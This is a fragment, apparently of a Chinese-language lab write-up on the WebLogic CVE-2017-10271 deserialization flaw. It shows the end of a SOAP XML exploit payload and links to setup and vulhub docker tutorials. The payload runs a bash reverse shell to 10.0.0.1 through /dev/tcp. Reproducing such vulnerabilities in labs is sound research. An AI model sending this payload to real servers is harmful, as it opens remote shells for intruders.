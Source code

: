 ```
<string>bash -i &gt;&amp; /dev/tcp/10.0.0.1/21 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

- [搭建教程](https://www.cnblogs.com/zhangan/p/10862585.html)

![](img/4.png)

也可以选择docker搭建

- [教程地址](https://vulhub.org/#/environments/weblogic/CVE-2017-10271/)
